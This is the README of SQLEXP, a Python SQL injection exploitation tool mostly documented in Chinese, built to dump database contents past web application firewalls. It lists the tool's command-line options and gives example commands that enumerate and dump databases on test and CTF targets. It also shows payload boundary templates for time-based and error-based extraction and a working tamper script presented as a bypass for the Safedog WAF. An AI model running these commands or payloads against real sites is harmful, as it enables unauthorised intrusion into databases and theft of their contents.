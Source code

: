 # SQLEXP
[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/)[![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/ggg4566/SQLEXP/blob/master/LICENSE)

## Paper:https://xz.aliyun.com/t/7767

PDF Download:[老树新花SQL 注入WAF绕过](./paper/SQL_BypassWaf.pdf)

![](https://forum.90sec.com/uploads/default/original/2X/5/5e0caa92f44e2b37ae941511f0c52b2516f22886.png)

---



​		SQL 注入利用工具，存在waf的情况下自定义编写tamper脚本 dump数据.

​		对于SQL注入漏洞利用通常情况下我们使用SQLMAP，在waf存在的场景下想利用自己独有的payload进行注入抓取数据，这个时候SQLMAP就显得那么力不存心，这种情况并不少见，对于ctfer来说经常会遇到，每次都要重复编写脚本对于一个IT人士来说显然不可接受。该工具正是解决waf存在场景下利用SQLMAP dump数据的难题，使用方法和SQLMAP基本相同，只要你会使用SQLMAP那么该工具上手非常容易.

![image-20200427175012921](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427175012921.png)

**使用手册：**

​		使用方法和SQLmap类似，仅仅实现了mysql、oracle、mssql,支持[U|E|B|T]四种方式的注入。

* 该工具仅仅是用来利用SQL注入漏洞，并不支持检测
* 只实现了最基本的数据dump功能并不能像SQLMAP一样--os-shell以及其他用法
* 从request 文件里面加载利用注入点插入$\*$ ```id=1$*$&submit=submit```

---

```
Usage: python SQLEXP.py [options]

Options:
  -h, --help  show this help message and exit
Usage: python SQLEXP.py [options]

Options:
  -h, --help            show this help message and exit
  -v, --version         Show program's version number and exit

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")

  Request:
    These options can be used to specify how to connect to the target URL

    --method=METHOD     Force usage of given HTTP method (e.g. GET|POST)
    --data=DATA         Data string to be sent through POST
    --cookie=COOKIE     HTTP Cookie header value
    --proxy=PROXY       Use a proxy to connect to the target URL,only can use
                        http proxy:[http://127.0.0.1:8080]
    --timeout=TIMEOUT   Seconds to wait before timeout connection
    --delay=DELAY_TIME  dbms delay timeout

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p PARAMETER        Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to this value
    --technique=TECH    SQL injection techniques to use (default "E")
    --string=FLAG       String to match when query is evaluated to True
    --time-sec=TIME_SEC
                        Seconds to wait before timeout connection
    --order-sec=ORDER_SEC
                        Resulting page URL searched for second-order response
    --tamper=TAMPER     Use given script(s) for tampering injection data
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --dbs               Enumerate DBMS databases
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --dump              Dump DBMS database table entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Misc:
    These options can be show some additional function.

    --debug             show deubg payload.
    
 Example: 
 list dbs:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql --dbs --tech U
 list tables:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --tables --tech U --proxy http://127.0.0.1:8080
 dump test db data:
#python SQLEXP.py -u "http://test.com/bypass
_sql/sqlinject.php?id=1" -p id --dbms mysql -D test --dump --tech E
#python SQLEXP.py -u "http://web.jarvisoj.com:32787/login.php" --data="username=user&password=admin" -p username --tamper=tamper_blank --dbms=mysql --technique=B --string="密码错误" --method=post  --dbs
#python SQLEXP.py-u http://localhost/sqlinject/sqlinject.php?id=2  -r req.txt --dbms mysql --tech E  --current-user  --debug
```

**开发手册：**

---

* 二次开发

工具设计思想借鉴了SQLMAP整个payload由boundary和基本查询query构成

![image-20200427183437621](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427183437621.png)

为了方便扩展添加支持其他数据库，构造语句和payload高度分离，不同数据库不同注入方法使用单独一个文件编写，由于对数据库基本查询能力进行了高度抽象化，所以添加支持其他数据引擎非常容易，只需要copy一份已经支持的数据库代码文件，在payload.py里面添加相对应的boundary和 base query即可。

​		比如添加支持db2：

​		1.copy -r SQLEXP\lib\core\dbs\mysql SQLEXP\lib\core\dbs\db2

  	  2.在SQLEXP\lib\parse\payload.py文件里面添加对应的代码

```python
db2_boundarys = {
    "length":"and len(%query)=%value",
    "time_length":"if(len(%query)>%value) WAITFOR DELAY '0:0:{T}'".format(T = conf.time_sec),
    ....
}
db2_payloads = {
    "query":"(select %s from t_n)",
    "base_query":"(select temp from (select ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as temp from t_n)xx where limit=%d)",
    "query_tab":"(select tn from (select  ROW_NUMBER() OVER(order by (select 0)) AS limit,(%s) as tn from {db}.t_n)xx where limit=%d)",
    ...
}
....
if conf.dbms == 'db2':
    BOUNDARY.update(mssql_boundarys)
    SQL.update(mssql_payloads)
```

​	一定注意的的是这里创建的数据库文件夹和py文件名和--dbms参数联系紧密，程序运行的时候通过--dbms的参数来决定加载那个数据库引擎的代码，所以--dbms=db2的时候，db2/db2_E.py、db2/db2_U.py等文件一定要存在。

![image-20200427185702838](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185702838.png)

![image-20200427185838021](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427185838021.png)

* Tamper编写

  tamper主要针对waf存在场景下的数据dump.

  编写非常简单只要将bounday和query替换为自己测试绕过的语句即可,以下为最新safedog的绕过tamper

  ```python
  #! /usr/bin/env python
  # -*- coding:utf-8 -*-
  # author:flystart
  # home:www.flystart.org
  
  b = " xor exp(~(/*!50000select*/*from(select(%query))a))"
  
  def do(strings):
      if "concat" in strings:
          strings = strings.replace('concat(',"/*!concat*/(")
      if "user" in strings:
          strings = strings.replace('user(',"/*!user*/(")
      strings = strings.replace(' and ', "&&")
      return strings
  def tamper(boundary,query):
      # print 'tamper'
      boundary = b
      query = do(query)
      return boundary,query
  ```

  ![image-20200427190147278](https://raw.githubusercontent.com/ggg4566/SQLEXP/master/images/image-20200427190147278.png)

**参考：**

https://github.com/shack2/SuperSQLInjectionV1

https://github.com/sqlmapproject/sqlmap